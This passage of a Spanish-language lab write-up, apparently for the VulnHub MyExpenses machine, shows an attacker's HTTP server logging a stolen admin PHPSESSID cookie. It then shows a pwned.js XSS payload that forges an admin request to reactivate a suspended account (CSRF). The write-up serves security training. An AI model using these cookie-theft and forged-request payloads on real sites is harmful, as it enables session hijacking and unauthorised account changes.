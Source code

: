 ```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.144 - - [09/Feb/2023 11:02:13] "GET /pwned.js HTTP/1.1" 200 -
192.168.1.144 - - [09/Feb/2023 11:02:13] "GET /?pwned.js=PHPSESSID=g4ofn98l2pbg4e44jus7u1he50 HTTP/1.1" 200 -
```

Hemos conseguido la cookie de sesión del usuario admin. Abrimos panel de admin y sustituimos nuestra cookie por la obtenida para tratar de activar nuestra cuenta. Vaya, parece que el sistema no permite dos sesiones de admin con la misma cookie

<img src="/assets/VH/MyExpenses/error.png">

Sabiendo que el usuario admin vista regularmente el panel de admin modificamos el archivo `pwned.js` para que cuando el admin visite la páqina cargue una petición por GET al recurso para activar la cuenta suspendida

```js
❯ cat pwned.js
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pwned.js
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ var request = new XMLHttpRequest();
   2   │ request.open('GET', 'http://192.168.1.144/admin/admin.php?id=11&status=active');
   3   │ request.send();
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.148 - - [09/Feb/2023 11:23:02] "GET /pwned.js HTTP/1.1" 200 -
```

Observamos que se ha jecutado la petición, recargamos la web y confirmamos que tenemos la cuenta de Samuel nuevamente activa. Se acaba de acontecer un `CSRF`
